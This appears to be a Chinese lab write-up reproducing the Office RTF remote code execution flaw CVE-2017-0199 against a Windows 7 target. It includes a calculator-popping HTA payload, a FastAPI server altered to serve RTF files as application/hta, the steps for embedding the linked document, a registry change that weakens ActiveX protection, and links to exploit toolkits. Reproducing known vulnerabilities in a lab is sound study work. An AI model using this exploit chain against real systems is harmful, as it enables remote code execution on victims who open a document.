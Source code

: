 ```yaml
---
date: 2025-10-09
category:
  - 网络安全
  - 网络钓鱼
tags:
  - 钓鱼附件
  - Office
  - Office漏洞
  - CVE-2017-0199
excerpt: Microsoft Office 2007 SP3、Microsoft Office 2010 SP2、Microsoft Office 2013 SP1、Microsoft Office 2016、Microsoft Windows Vista SP2、Windows Server 2008 SP2、Windows 7 SP1、Windows 8.1 允许远程攻击者通过精心设计的文档执行任意代码，又名“Microsoft Office/WordPad 远程代码执行漏洞 w/Windows API”。
---
```


# CVE-2017-0199

---

- [CVE-2017-0199](#cve-2017-0199)
  - [简介](#简介)
  - [复现环境](#复现环境)
  - [漏洞复现](#漏洞复现)
  - [参考材料](#参考材料)

---

## 简介

> [Tuuu Nya's blog | 一个想当黑客的艺术家 ✨ (hackersb.cn)](https://www.hackersb.cn/hacker/228.html)

CVE-2017-0199是首个Microsoft Office RTF漏洞，漏洞发布日期为2017年4月11日

受影响系统包括：

- Microsoft Office 2016
- Microsoft Office 2013
- Microsoft Office 2010
- Microsoft Office 2007

当用户打开包含嵌入式漏洞的文档时，此漏洞允许恶意攻击者下载并执行包含PowerShell命令的Visual Basic脚本。

微软官方对该漏洞的通告：[CVE-2017-0199 - Security Update Guide - Microsoft - Microsoft Office/WordPad Remote Code Execution Vulnerability w/Windows](https://msrc.microsoft.com/update-guide/en-US/advisory/CVE-2017-0199)

---

## 复现环境

- 靶机: 
  - [Win7](https://next.itellyou.cn/Original/#cbp=Product?ID=6f677346-0a09-43fa-b60d-e878ed7625a0)+[Office2010](https://msdn.itellyou.cn/)
  - IP: `192.168.1.14`

- 攻击机 Kali
  - IP: `100.1.1.131`

---

## 漏洞复现

> [CVE-2017-0199漏洞复现过程 · 浮萍's Blog (fuping.site)](https://fuping.site/2017/04/18/CVE-2017-0199漏洞复现过程/)

很多漏洞复现的文章都提到了使用 Apache 服务器, 其目的都指向自定义响应 `Content-type`

因此这里我们只需要能够自定义响应的 `Content-type` 就不一定需要 Apache 服务器

可以用 [Python/use_case/FileServer/FastAPI/fileserver.py · main · 33 2 / DailyNotesCodeBackup · GitLab](https://gitlab.com/ayusummer233/dailynotescodebackup/-/blob/main/Python/use_case/FileServer/FastAPI/fileserver.py?ref_type=heads)

这里也以这个 Fastapi 写的 FileServer 为例

在路由里指定 `Content-type` 即可

----

编写一个弹计算器的 POC:

`calc.hta`

```xml
<script>
    a=new ActiveXObject("WScript.Shell");
    a.run('%windir%\\System32\\cmd.exe /c calc.exe', 0);window.close();
</script>
```

---

用 Office2016 新建一个 word 文档保存为 `office2016.docx` 将其放到 FileServer 的 `upload` 目录下并重命名为 `office2016docx.rtf`

![image-20240614095147296](http://cdn.ayusummer233.top/DailyNotes/202406140951201.png)

在靶机上用 Office2016 新建一个 word 文档, `插入->对象->由文件创建`

填写 FileServer 中刚才放置的 `office2016docx.rtf` 的下载链接, 这里是 `http://100.1.1.131:8000/download/office2016docx.rtf`

并勾选 `链接到文件`

![image-20240613180746628](http://cdn.ayusummer233.top/DailyNotes/202406131807154.png)

点击 `确定` 后即会请求该文件

![image-20240613180914152](http://cdn.ayusummer233.top/DailyNotes/202406131809247.png)

保存为 rtf 文件 `Office2016docx-insert-rtf.rtf`

![image-20240613181301997](http://cdn.ayusummer233.top/DailyNotes/202406131813096.png)

---

解下来就需要对这个链接的 rtf 文件动手了, 使用前面编写的弹计算器的 POC `calc.hta` 重命名并替换掉前面  FileServer 上放置的 `office2016docx.rtf`

![image-20240614095637939](http://cdn.ayusummer233.top/DailyNotes/202406140956046.png)

然后改下 `fileserver.py` 中文件下载的路由, 让下载 `rtf` 文件的响应中的 `Content-type` 为 `application/hta`:

```python
@app.get("/download/{file_path:path}")
async def download_file(file_path: str):
    file_location = UPLOAD_DIRECTORY / Path(file_path)
    if file_location.exists():
        if file_location.suffix == ".rtf":
            media_type = "application/hta"
        else:
            return FileResponse(str(file_location))

        return FileResponse(str(file_location), media_type=media_type)
```

![image-20240614095814853](http://cdn.ayusummer233.top/DailyNotes/202406140958961.png)

---

双击打开靶机 Win7 上的 `Office2016docx-insert-rtf.rtf`

如果报错如下:

![image-20240614095953403](http://cdn.ayusummer233.top/DailyNotes/202406140959527.png)

根据 [CVE-2017-0199复现失败解决方案-腾讯云开发者社区-腾讯云 (tencent.com)](https://cloud.tencent.com/developer/article/2002507) 中提到的, 这是因为注册表默认禁用了ActiveX执行HTA

解决方案为将 `Win+R -> 输入regedit -> 回车`  注册表项 `HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Internet Explorer\ActiveX Compatibility\{3050f4d8-98b5-11cf-BB82-00AA00BDCE0B}` 从 `400` 改为 `0`

![image-20240614102032895](http://cdn.ayusummer233.top/DailyNotes/202406141020003.png)

![image-20240614102057166](http://cdn.ayusummer233.top/DailyNotes/202406141020290.png)



![image-20240616171919988](http://cdn.ayusummer233.top/DailyNotes/202406161719114.png)

---


## 参考材料

- 分析
  - [CVE-2017-0199漏洞分析-CSDN博客](https://blog.csdn.net/qq_37672864/article/details/89353787)
- 利用工具
  - [GitHub - bhdresh/CVE-2017-0199: Exploit toolkit CVE-2017-0199 - v4.0 is a handy python script which provides pentesters and security researchers a quick and effective way to test Microsoft Office RCE. It could generate a malicious RTF/PPSX file and deliver metasploit / meterpreter / other payload to victim without any complex configuration.](https://github.com/bhdresh/CVE-2017-0199)

- 复现过程
  - 手工复现
    - [对CVE-2017-0199的一次复现过程与内网穿透的利用 - 知乎 (zhihu.com)](https://zhuanlan.zhihu.com/p/26522540)
    - [CVE-2017-0199漏洞复现过程 · 浮萍's Blog (fuping.site)](https://fuping.site/2017/04/18/CVE-2017-0199漏洞复现过程/)
    - [Office CVE-2017-0199复现 - Junay的博客 (delcoding.github.io)](https://delcoding.github.io/2017/11/office-cve-2017-0199/)
    - [Tuuu Nya's blog | 一个想当黑客的艺术家 ✨ (hackersb.cn)](https://www.hackersb.cn/hacker/228.html)
    - [CVE-2017-0199漏洞复现过程 · 浮萍's Blog (fuping.site)](https://fuping.site/2017/04/18/CVE-2017-0199漏洞复现过程/)
    - [code2sec.com/office漏洞CVE-2017-0199复现：HTA Handler Vulnerability（一）.md at master · bit4woo/code2sec.com · GitHub](https://github.com/bit4woo/code2sec.com/blob/master/office漏洞CVE-2017-0199复现：HTA Handler Vulnerability（一）.md)
    - [Office CVE-2017-0199 复现 - X1r0z Blog (exp10it.io)](https://exp10it.io/2019/07/office-cve-2017-0199-复现/)
    - [CVE-2017-0199 Microsoft Office 逻辑漏洞复现和利用 | Hacked By Fish_o0O (fish-o0o.github.io)](https://fish-o0o.github.io/2018/03/07/CVE-2017-0199 Microsoft Office 逻辑漏洞复现和利用/)
    - [Office远程代码执行漏洞CVE-2017-0199复现 - SecurityKid - 博客园 (cnblogs.com)](https://www.cnblogs.com/SecurityKid/p/7384918.html)
  - MSF
    - [OFFICE OLE2LINK 漏洞 (CVE-2017-0199) 利用 - Gorgias'Blog](https://gorgias.me/2017/05/07/CVE-2017-0199-利用/)
    - [CVE-2017-0199 复现 - 40huo's - 知至知终](https://www.40huo.cn/blog/cve-2017-0199.html)
  - 复现失败解决方案
    - [CVE-2017-0199复现失败解决方案-腾讯云开发者社区-腾讯云 (tencent.com)](https://cloud.tencent.com/developer/article/2002507)

- 检测对抗
  - [Microsoft Office OLE2Link(CVE-2017-0199)漏洞利用技术分析与防护方案 – 绿盟科技技术博客 (nsfocus.net)](https://blog.nsfocus.net/microsoft-office-ole2link-exploits-technology-analysis/)
  - [对利用CVE-2017-0199漏洞的病毒变种的监测与分析-腾讯云开发者社区-腾讯云 (tencent.com)](https://cloud.tencent.com/developer/article/1044292)
  - 野外样本分析
    - [CVE-2017-8570首次公开的野外样本及漏洞分析 (seebug.org)](https://paper.seebug.org/520/)

